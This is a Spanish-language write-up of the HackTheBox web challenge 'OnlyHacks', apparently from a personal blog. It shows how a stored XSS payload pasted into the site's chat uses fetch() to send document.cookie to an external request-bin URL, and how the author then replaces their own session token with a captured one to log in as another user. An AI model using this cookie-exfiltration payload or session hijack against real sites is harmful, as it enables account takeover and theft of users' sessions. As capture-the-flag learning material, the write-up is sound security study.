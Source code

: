 ```yaml
---
title: "HackTheBox - Challenge OnlyHacks"
summary: "Vamos a ver el paso a paso detallado de como ir resolviendo el challenge:"
date: "2025-04-04"
draft: false
tags:
- Tutorial
- HackTheBox
- Challenge
- Web
---
```


### Paso a paso:


- Entro a los dos links q me dieron: 
    ![Test Relative Image](./imagen.png)

<div style="height: 5px;"></div>

- Pruebo registrarme con el mail test@email.htb:
    ![Test Relative Image](./imagen2.png)
    
<div style="height: 5px;"></div>

- Nos registramos y nos dan a elegir personas:
    ![Test Relative Image](./imagen3.png)

<div style="height: 5px;"></div>

- Elegimos a las chicas y después vamos a matches:
    ![Test Relative Image](./imagen4.png)

<div style="height: 5px;"></div>

- Probamos un script en el chat:
    ![Test Relative Image](./imagen5.png)

<div style="height: 5px;"></div>

- Utilizo Requestbin whoapi para generar un link que me muestre las maquinas que piden la petición a dicha web:
    ![Test Relative Image](./imagen6.png)

<div style="height: 5px;"></div>

- después pego el link con un script en el chat de la maquina atacada:
    "<script>fetch("http://requestbin.whapi.cloud/1kxv70s1?cookie=" + document.cookie);</script>"

<div style="height: 5px;"></div>

- Y veo las peticiones:
    ![Test Relative Image](./imagen7.png)

<div style="height: 5px;"></div>

- Mi sesion web token acaba en W-M asiq la otra es la de la web:
    ![Test Relative Image](./imagen8.png)

<div style="height: 5px;"></div>

- En la pagina presiono ctrl + shift + C y voy a la parte de storage y veo mi sesión web token qur es:
    eyJ1c2VyIjp7ImlkIjo1LCJ1c2VybmFtZSI6ImpvYSJ9fQ.Z-7cdA.q-qU-lMHSmBzD4TQRvw4LU8IW-M
    ![Test Relative Image](./imagen9.png)

<div style="height: 5px;"></div>

- Y lo remplazo por el de Renata que me dio en la petición que hizo a la web:
    eyJ1c2VyIjp7ImlkIjoxLCJ1c2VybmFtZSI6IlJlbmF0YSJ9fQ.Z-7buw.346_oMwGAJSQdJA_GQQoNyGfwZQ

<div style="height: 5px;"></div>    

- Y así entro a la web como Renata:
    ![Test Relative Image](./imagen10.png)

<div style="height: 5px;"></div>

- Y ahi encuentro la llave:
    ![Test Relative Image](./imagen11.png)
    

